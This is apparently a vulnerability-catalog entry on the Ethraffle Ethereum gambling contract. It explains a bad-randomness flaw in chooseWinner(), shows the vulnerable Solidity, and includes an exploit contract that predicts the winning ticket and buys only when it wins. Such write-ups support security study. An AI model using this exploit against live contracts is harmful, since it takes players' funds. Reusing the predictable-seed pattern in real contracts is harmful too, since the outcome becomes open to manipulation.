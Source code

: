 Ethraffle
======
https://etherscan.io/address/0x9A3dA065e1100a5613dc15b594f0F6193B419E96#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses `block coinbase` as the seed. This can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value, thus the attacker can always win.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket > totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        // Pseudorandom number generator
        uint remainingGas = msg.gas;
        bytes32 sha = sha3(
            block.coinbase,
            tx.origin,
            remainingGas
        );

        uint winningNumber = (uint(sha) % totalTickets) + 1;
        address winningAddress = contestants[winningNumber].addr;
        ......
    }

Details
------
After all tickets in a round(6 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all buyers. However, the seed of randomness, `block.coinbase` and `remainingGas`, can be accessed before the transaction, so the attacker can exploit this vulnerability to always win in the game.

Exploit
------
    contract Exploit{
    
        Ethraffle target;
        
        uint constant totalTickets = 6;
        
        function Exploit(address _target) public payable{
            target = Ethraffle(_target);
        }
    
        function attack(uint256 _amount) public payable{
        
            uint current_sold = target.nextTicket;
            if(current_sold + 1 > totalTickets){
                bytes32 sha = sha3(block.coinbase, msg.sender, msg.gas);
                uint winningNumber = (uint(sha) % totalTickets) + 1;
                
                if(winningNumber == totalTickets){          //if we can win
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
            
        }
    }
